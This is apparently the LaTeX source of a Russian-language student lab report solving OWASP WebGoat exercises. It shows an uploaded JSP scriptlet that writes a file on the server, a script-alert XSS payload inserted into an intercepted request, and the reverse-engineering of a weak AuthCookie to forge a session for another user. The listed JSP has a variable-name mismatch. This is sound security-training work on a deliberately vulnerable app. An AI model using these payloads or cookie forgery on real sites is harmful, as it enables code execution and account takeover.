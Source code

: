 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\section{Исполнение злонамеренного кода}
Если злоумышленнику известна директория с исполняемыми файлами, то он может загрузить туда свой код и исполнить его.
Загрузим на сервер скрипт со следущим содержанием
\begin{lstlisting}
<html>
<%
java.io.File fil = new java.io.File(''D:\WebGoat-5.4\tomcat
\webapps\WebGoat\mfe_target\guest.txt'');
file.createNewFile();
%>
</html>
\end{lstlisting}

\newpage
\section{Подделка параметров}
В части Bypass HTML Field Restrictions необходимо в перехваченном сообщении поменять значение всех полей и добавить  disabledinput.

Часть Exploit Hidden Fields выполняется аналогично.

Третья часть выполняется аналогично: в поле собщения вводим тело скрипта
\begin{lstlisting}
<script>alert("hey")</script>
\end{lstlisting}
Для отправки скрипта на другой адрес меняем в перехваченном пакете значение аргумента to, чтобы получился такой код
\begin{lstlisting}
gId=GMail+id&gPass=password&subject=Comment+for+WebGoat&
to=friend%40owasp.org&msg=%3Cscript%3Ealert%28%22hey%22
%29%3C.script%3E&SUBMIT=Send%21
\end{lstlisting}

Bypass Client Side JavaScript Validation выполняется таким е способом.

\section{Недостатки управление сессией}
При перехвате пакетов получаем два ключа
\begin{lstlisting}
65432ubphcfx
65432udfqtb
\end{lstlisting}
Нетрудно догадаться, что ключи получаются путем прибавления числа 65432 в начало и сдвига всех букв на 1 вперед, причем имя записывается задом наперед. Получается, что для логина alice ключ будет 65432fdjmb. Далее перехватываем пакет и меняем заголовок Cookie AuthCookie=65432fdjmb.

Hijack a Session представляет собой более сложную версию предыдущего задания без использования  Cookie AuthCookie, но с использованием Cookie WEAKID.
\end{document}
